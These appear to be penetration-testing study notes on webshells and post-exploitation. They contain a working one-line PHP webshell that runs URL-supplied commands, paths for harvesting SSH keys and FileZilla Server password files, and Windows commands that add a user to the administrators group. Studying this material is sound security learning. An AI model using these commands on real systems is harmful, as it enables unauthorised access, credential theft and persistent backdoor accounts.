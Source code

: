 
## Webshells
- Used when uploading a script that activates a reverse or bind shell is impossible
- PHP is the most commonly used language
- A basic command: ``<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>``
- This means any commands we list after “?cmd=” will be executed
- This is used to run commands written into the URL of a shell
- Lots of webshells available on Kali

## Next Steps

Next step after have connected to system using shell, want to gain further, less unstable connection by finding credentials such as ssh keys or passwords or adding your account to their system

Looking for possible SSH keys on Linux: `/home/<user>/.ssh`
Looking for passwords on Windows: `C:\Program Files\FileZilla Server\FileZilla Server.xml` or `C:\xampp\FileZilla Server\FileZilla Server.xml`

Syntax to log in on Windows:
`net user <username> <password> /add`
`net localgroup administrators <username> /add`
